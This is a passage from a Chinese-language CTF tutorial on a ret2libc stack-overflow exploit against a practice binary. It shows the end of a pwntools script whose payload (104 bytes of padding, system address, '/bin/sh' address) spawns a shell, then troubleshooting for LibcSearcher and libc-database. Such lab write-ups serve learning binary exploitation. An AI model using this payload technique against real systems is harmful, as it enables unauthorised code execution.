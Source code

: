 ```bash

#缓冲区少了 8 个字节，因为我们虽然是返回到了 main 函数，但是在 main 函数之前有一些初始化的函数，这些函数改变了栈，第二次调用 main 函数的时候缺少了栈初始化的过程，如果我们返回到_start 那么偏移就是一样的。
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
p.sendline(payload)


p.interactive()
```

如果出现下面这种情况：

```bash
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc31.py
[+] Starting local process './ret2libc3': pid 76172
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
No matched libc, please add more libc or try others
[*] Stopped process './ret2libc3' (pid 76172)
```

解决办法：

libc 数据库中没有对应的版本，下载[https://github.com/niklasb/libc-database，然后替换libc-database目录](https://github.com/niklasb/libc-database%EF%BC%8C%E7%84%B6%E5%90%8E%E6%9B%BF%E6%8D%A2libc-database%E7%9B%AE%E5%BD%95)

根据命令下载不同发行版本的 libc

```bash
$ ./get  # List categories
$ ./get ubuntu debian  # Download Ubuntu's and Debian's libc, old default behavior
$ ./get all  # Download all categories. Can take a while!
```

如果遇到这种情况：

```bash
root@qufeng-virtual-machine:/LibcSearcher/libc-database# ./get ubuntu
Will download or update for:
Requirements for download or update 'ubuntu' are not met. Please, refer to README.md for installation instructions
```

就查看 README 中的 Requirements，我是缺少了这个 zstd，安装好所有的即可

```bash
qufeng@qufeng-virtual-machine:/$ zstd
The program 'zstd' is currently not installed. You can install it by typing:
sudo apt install zstd
```

继续运行脚本，可能会找到多个脚本，手动选择一个，接着可能出现这种情况：

